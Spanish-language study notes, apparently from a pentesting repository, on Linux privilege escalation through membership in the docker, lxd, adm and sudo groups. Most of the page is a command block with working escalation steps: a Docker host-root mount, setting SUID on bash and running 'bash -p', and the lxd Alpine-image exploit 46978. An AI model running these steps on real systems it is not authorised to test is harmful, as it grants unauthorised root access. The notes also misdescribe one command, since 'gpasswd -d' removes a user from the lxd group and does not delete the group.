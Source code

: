 # Abuso de grupos de usuario especiales

Tags: #Linux #GruposExpeciales  #Escalada #Root #Privilegios #Lxd 

En el contexto de Linux, los **grupos** se utilizan para **organizar** a los usuarios y **asignar** **permisos** para acceder a los recursos del sistema. Los usuarios pueden pertenecer a uno o varios grupos, y los grupos pueden tener diferentes niveles de permisos para acceder a los recursos del sistema.

Existen grupos especiales en Linux, como ‘**lxd**‘ o ‘**docker**‘, que se utilizan para permitir a los usuarios ejecutar contenedores de manera segura y eficiente. Sin embargo, si un usuario malintencionado tiene acceso a uno de estos grupos, podría aprovecharlo para obtener privilegios elevados en el sistema.

Por ejemplo, si un usuario tiene acceso al grupo ‘**docker**‘, podría utilizar la herramienta Docker para desplegar nuevos contenedores en el sistema. Durante el proceso de despliegue, el usuario podría aprovecharse de las **monturas** (**mounts**) para hacer que ciertos recursos inaccesibles en la máquina host estén disponibles en el contenedor. Al ganar acceso al contenedor como usuario ‘**root**‘, el usuario malintencionado podría inferir o manipular el contenido de estos recursos desde el contenedor.

Para mitigar el riesgo de abuso de grupos de usuario especiales, es importante limitar cuidadosamente el acceso a estos grupos y asegurarse de que sólo se asignan a usuarios confiables que realmente necesitan acceder a ellos.


## Grupos Especiales 

```bash 
❯ id                     # Para ver a que grupos estamos asignados 

# Grupos especiales: 
# sudo = Si estas en estre grupo y disponemos de la passwd del usuario, podemos ejecutar comandos como el usuario 'root'


# docker = Si estas en este grupo puedes usar los sig. comandos (docker images, docker ps, docker pull ubuntu:latest)
❯ docker run --rm -dit -v /:/mnt/root --name privesc ubuntu # Desplegaremos un contenedor con una montura de la raiz actual y que la monte en el dir /mnt/root del contenedor

❯ docker exec -it privesc bash # Para ingresar al contenedor y que nos de una bash para poder ver todos los recursos  
❯ chmod u+s bash               # Dentro del contenedor podemos asignar SUID a la bash y este sera reflejada a la bash legitima del usuario fuera del contenedor ya que como hicimos una copia de la raiz del usuario legitimo, todo lo que hagamos dentro del contenedor sera reflejado afuera de el
❯ ls -l /bin/bash              # Listar los permisos de la bash 
❯ bash -p                      # Solicitamos la bash con privilegio temporal fuera del contenedor, ya que es una bash SUID


# adm = Si estas en este grupo, podras leer los logs del sistema
❯ ls -l /var/log/
❯ cat /var/log/apache2/access.log


# lxd = Si estas en este grupo, puedes escalar por medio de monturas, utilizando el exploit 
❯ gpasswd -d <user> lxd   # Borrar el grupo lxd de la maquina  
	
❯ searchsploit lxd
❯ searchsploit -m 46978.sh 
# Descargas la imagen de Alpine, la url esta dentro del script 
❯ bash build-alpine    # Aclarar que lo debemos de hacer en la maquina de atacante porque nos pide ser root y despues transferimos a la victima lo sig: (privesc.sh, alpine-v3.17-x86_64.tar.gz)
❯ ./privesc.sh -f alpine-v3.17-x86_64.tar.gz   # Por defecto nos creara un contenedor y nos dara una consola como root dentro del contenedor que llevara la raiz de la maquina victima, la raiz del maquina victima la encontraremo en el dir /mnt/root/
❯ chmod u+s bash               # Dentro del contenedor podemos asignar SUID a la bash y este sera reflejada a la bash legitima
❯ ls -l /bin/bash              # Listar los permisos de la bash
❯ bash -p                      # Solicitamos la bash con privilegio temporal fuera del contenedor, ya que es una bash SUID
```

